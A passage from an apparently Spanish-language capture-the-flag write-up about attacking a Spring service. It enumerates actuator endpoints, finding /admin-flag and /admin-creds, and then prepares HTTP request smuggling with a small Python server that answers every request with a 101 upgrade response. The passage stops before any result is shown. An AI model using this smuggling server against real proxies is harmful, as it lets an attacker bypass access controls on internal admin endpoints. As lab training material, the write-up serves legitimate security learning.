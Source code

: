 ```
      } else {
        throw new Error('Service response not OK');
      }
    } catch (error) {
      let existingContent = document.getElementById("output").innerHTML;
      document.getElementById("output").innerHTML = `${existingContent}<br/>${serviceUrl}: <strong>OFFLINE</strong>`;
    }
  }
}
```

Si vemos esto redirigue a un Spring vamos a hacer un 404

![image](https://github.com/user-attachments/assets/92e292b2-de45-4c6d-9fb6-d79f66555055)

# Primera flag

Una vez sabemos como funciona podemos mapear con /env o /mappings

en /env encontramos un 403

pero en /mappings encontramos dos enpoints interesantes:

- /admin-flag
- /admin-creds

Pero no tenemos acceso a ningun recurso de ellos

Vamos a probar si el request smuggling es funciona cogiendo el servidor que antes hemos cogido en el waltrought

```
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {}
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

pythone 3 server.py 5555

![image](https://github.com/user-attachments/assets/e6a24a4f-d76a-4418-b607-bd5eddd1c5d7)

